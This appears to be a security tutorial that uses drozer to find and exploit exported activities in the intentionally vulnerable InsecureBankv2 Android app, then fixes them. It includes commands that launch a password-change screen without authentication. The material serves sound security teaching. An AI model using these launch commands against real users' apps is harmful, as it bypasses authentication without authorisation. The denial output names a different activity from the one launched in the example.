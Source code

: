 ```yaml
---
layout: default
title: Identifying and fixing security vulnerabilities of Android applications - Activities
---
```


### Prerequisites 

* [InsecureBankv2](https://github.com/dineshshetty/Android-InsecureBankv2) installed on Android device or emulator
* [Drozer](https://labs.mwrinfosecurity.com/tools/drozer) agent installed on Android device or emulator
* Drozer console runs and connected to drozer agent

### Getting information

In this blog series we will be using drozer extensively. [Drozer manual](https://labs.mwrinfosecurity.com/assets/BlogFiles/mwri-drozer-user-guide-2015-03-23.pdf) contains information how to get started, an important thing to remember is to allow port forwarding via adb and connect drozer console on your host computer to a drozer agent running on your android device or emulator:

```
adb forward tcp:31415 tcp:31415
drozer console connect
```

After we connect drozer console to an agent, we need to find package name of the InsecureBankv2 application. One can do this either by using `adb` or `drozer`:

```
adb shell
pm list packages | grep bank

// alternative way

dz> run app.package.list -f bank
```

This way or another, we now know that the package of interest is `com.android.insecurebankv2`.

One of the first things we can do with drozer is to determine attack surface:

```
dz> run app.package.attacksurface com.android.insecurebankv2
Attack Surface:
  5 activities exported
  1 broadcast receivers exported
  1 content providers exported
  0 services exported
    is debuggable
```

Let's look closer at activities. The command below will enumerated exported activities along with the permissions necessary to invoke them, i.e. activities that can be launched by other processes on Android device:

```
dz> run app.activity.info -a com.android.insecurebankv2
Package: com.android.insecurebankv2
  com.android.insecurebankv2.LoginActivity
    Permission: null
  com.android.insecurebankv2.PostLogin
    Permission: null
  com.android.insecurebankv2.DoTransfer
    Permission: null
  com.android.insecurebankv2.ViewStatement
    Permission: null
  com.android.insecurebankv2.ChangePassword
    Permission: null
```

As you can see, there are 5 exported activities. One can guess that `LoginActivity` should be exported, as it is probably the one launched when the application starts. However, other 4 activities may not necessarily be the one that should be allowed to be launched directly.

### Exploit

Here is a way how one can use drozer to launch an exported activity:

```
dz> run app.activity.start --component com.android.insecurebankv2 com.android.insecurebankv2.ChangePassword
```

On your android device/emulator you will see:

![Vulnerable ChangePassword Activity launched from drozer](images/android-insecurebank-exported-activity-launched.PNG)

The screen you are seeing will allow to change password without authenticating to the application. In this specific case, another person should have had an access to the device to be able to change password. However, there are cases when parameters can be passed to the activities being launched, and those activities would operate on the given parameters. It is important to keep that in mind when evaluating real-world applications (looking into the source code of exported activities would be warranted to determine whether it reads any parameters from an intent that was used to launch it).

### Fix

The activity we looked at should not be exported, so the fix would be to remove `exported` attribute: 

![Fixing vulnerable activity by removing exported attribute](images/android-insecurebank-exported-activity-fix.PNG). 

If we try to launch activity from drozer after this fix, we will get:

```
Permission Denial: starting Intent { flg=0x10000000 cmp=com.android.insecurebankv2/.PostLogin (has extras) } from ProcessRecord{ad574180 1878:com.mwr.dz:remote/u0a72} (pid=1878, uid=10072) not exported from uid 10071
```

### Summary

In this post we looked at exploiting exported Android activities. We also showed how to fix this vulnerability either by removing `exported` attribute.
